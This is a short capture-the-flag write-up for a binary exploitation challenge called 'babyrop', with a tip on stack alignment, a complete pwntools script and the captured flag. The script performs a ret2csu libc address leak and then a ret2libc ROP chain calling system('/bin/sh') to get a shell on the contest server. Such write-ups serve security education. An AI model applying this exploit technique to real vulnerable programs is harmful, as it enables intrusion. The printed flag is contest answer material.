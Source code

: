 From there it is a standard ret2libc.

Many people ran into an error with stack alignment. My advice is: if you ever crash on remote and are completely sure that system is getting called with `[rdi] == "/bin/sh"`, just toss a few `ret`s into the final ropchain between the calls.

Script:
```py
from pwn import *

e = ELF("./babyrop")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = e
context.terminal = ["konsole", "-e"]

context.log_level="debug"


p = remote("dicec.tf", 31924)


poprdi = 0x00000000004011d3
csu1 = 0x00000000004011b0
csu2 = 0x00000000004011ca
ret = 0x000000000040101a

points_to_init = 0x4000f8


p.sendlineafter(":", "A"*72 + p64(poprdi) + p64(1) + p64(csu2) + p64(0) + p64(1)*2 + p64(e.got["write"]) + p64(8) + p64(points_to_init) + p64(csu1) + "AAAAAAAA"*7 + p64(e.plt["write"]) + p64(e.sym["main"]))



p.recv(1)

libc.address = u64(p.recv(8).ljust(8, "\x00")) - libc.sym["write"]

print("libc base", hex(libc.address))


p.sendlineafter(":", "A"*72 + p64(ret) + p64(poprdi) + p64(next(libc.search("/bin/sh"))) + p64(ret) + p64(libc.sym["system"]))


p.interactive()
```

Flag: `dice{so_let's_just_pretend_rop_between_you_and_me_was_never_meant_b1b585695bdd0bcf2d144b4b}`
